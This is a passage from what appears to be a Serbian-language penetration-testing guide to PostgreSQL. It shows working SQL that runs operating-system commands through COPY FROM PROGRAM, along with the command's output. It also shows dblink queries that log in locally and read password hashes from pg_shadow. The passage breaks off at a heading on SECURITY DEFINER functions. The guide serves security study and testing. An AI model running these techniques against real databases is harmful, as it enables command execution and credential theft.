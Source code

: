 ```sql
LANGUAGE sql VOLATILE AS 'COPY public.shell_commands_results (data) FROM PROGRAM ''/usr/bin/id''; select ''test'';';

ANALYZE public.temp_table;
```

Zatim će tabela `shell_commands_results` sadržati izlaz izvršenog koda:

```
uid=2345(postgres) gid=2345(postgres) groups=2345(postgres)
```

### Lokalni Login

Neke pogrešno konfigurisane postgresql instance mogu dozvoliti prijavljivanje bilo kog lokalnog korisnika, moguće je lokalno sa 127.0.0.1 koristeći **`dblink` funkciju**:

```sql
\du * # Get Users
\l    # Get databases
SELECT * FROM dblink('host=127.0.0.1
port=5432
user=someuser
password=supersecret
dbname=somedb',
'SELECT usename,passwd from pg_shadow')
RETURNS (result TEXT);
```

{% hint style="warning" %}
Imajte na umu da bi prethodni upit radio, **funkcija `dblink` mora postojati**. Ako ne postoji, možete pokušati da je kreirate pomoću

```sql
CREATE EXTENSION dblink;
```
{% endhint %}

Ako imate lozinku korisnika sa više privilegija, ali korisniku nije dozvoljeno da se prijavi sa spoljne IP adrese, možete koristiti sledeću funkciju da izvršite upite kao taj korisnik:

```sql
SELECT * FROM dblink('host=127.0.0.1
user=someuser
dbname=somedb',
'SELECT usename,passwd from pg_shadow')
RETURNS (result TEXT);
```

Moguće je proveriti da li ova funkcija postoji sa:

```sql
SELECT * FROM pg_proc WHERE proname='dblink' AND pronargs=2;
```

### **Prilagođena definisana funkcija sa** SECURITY DEFINER
